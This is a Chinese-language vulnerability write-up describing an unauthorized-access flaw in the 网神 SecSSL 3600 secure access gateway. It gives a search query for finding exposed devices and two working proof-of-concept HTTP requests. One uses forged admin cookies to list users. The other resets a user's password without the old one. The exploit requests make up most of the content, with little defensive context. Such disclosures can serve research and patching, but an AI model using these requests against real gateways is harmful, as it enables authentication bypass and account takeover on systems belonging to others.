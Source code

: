 # 网神 SecSSL 3600安全接入网关系统 未授权访问漏洞

## 漏洞描述

网神 SecSSL 3600安全接入网关系统 存在未授权访问漏洞，攻击者通过漏洞可以获取用户列表，并修改用户账号密码

## 漏洞影响

<a-checkbox checked>网神 SecSSL 3600安全接入网关系统  </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="安全接入网关SecSSLVPN" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1683194562640-b489ef43-07a3-45a1-8bd9-c7b311c1c0c0.png)

验证POC，获取用户列表zkec

```sql
GET /admin/group/x_group.php?id=2

Cookie: admin_id=1; gw_admin_ticket=1;
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1683194650093-f31de8b5-b20e-46c4-b967-dc2d5007f861.png)

修改用户密码

```sql
POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"ceshi","subAuthId":"1"}
old_pass=&password=Asd123!@#123A&repassword=Asd123!@#123A
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1683194784648-9c5a03d8-e44c-406e-94f8-15bb299bc2a4.png)